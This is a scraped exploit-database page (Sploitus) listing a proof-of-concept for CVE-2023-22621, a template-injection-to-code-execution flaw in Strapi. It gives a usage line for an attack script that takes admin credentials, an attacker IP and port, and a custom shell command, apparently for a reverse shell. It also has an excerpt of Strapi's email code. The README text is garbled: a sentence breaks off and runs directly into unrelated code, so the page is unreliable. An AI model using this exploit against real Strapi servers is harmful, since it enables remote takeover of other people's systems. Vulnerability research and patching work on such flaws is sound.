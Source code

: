 ```yaml
---
title: Exploit for CVE-2023-22621 exploit
url: https://sploitus.com/exploit?id=E7A981F0-5985-5B91-A8BE-9F1491261AAC&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-04-26
fetch_date: 2025-10-04T11:32:53.476475
---
```


# Exploit for CVE-2023-22621 exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Injection in Strapi CVE-2023-22621

2023-04-25 | CVSS 7.2

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=E7A981F0-5985-5B91-A8BE-9F1491261AAC
# CVE-2023-22621-POC
CVE-2023-22621: SSTI to RCE by Exploiting Email Templates affecting Strapi Versions  {
  return strapi.config.get('plugin.email');
};

const send = async (options) => {
  return strapi.plugin('email').provider.send(options);
};

/**
 * fill subject, text and html using lodash template
 * @param {object} emailOptions - to, from and replyto...
 * @param {object} emailTemplate - object containing attributes to fill
 * @param {object} data - data used to fill the template
 * @returns {{ subject, text, subject }}
 */
const sendTemplatedEmail = (emailOptions = {}, emailTemplate = {}, data = {}) => {
  const attributes = ['subject', 'text', 'html'];
  const missingAttributes = _.difference(attributes, Object.keys(emailTemplate));
  if (missingAttributes.length > 0) {
    throw new Error(
      `Following attributes are missing from your email template : ${missingAttributes.join(', ')}`
    );
  }
```

![POC](https://cdn.discordapp.com/attachments/1028021191568535623/1100454965555761163/poc3.gif)

## Usage
`python3 CVE-2023-22621.py -url http://strapi.local:1337/ -u "admin@strapi.local" -p "$Securep4ss" -ip 127.0.0.1 -port 4545`
```
options:
  -h, --help            show this help message and exit
  -url URL              URL of the Strapi instance
  -u U                  Admin username
  -p P                  Admin password
  -ip IP                Attacker IP
  -port PORT            Attacker port
  -url_redirect         URL to redirect after email confirmation
  -custom CUSTOM        Custom shell command to execute
```

# Credits
All credits goes to original vulnerability [finder](https://twitter.com/GhostCcamm), checkout his awesome write-up [here](https://www.ghostccamm.com/blog/multi_strapi_vulns/index.html#detecting-remote-code-execution-cve-2023-22621)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)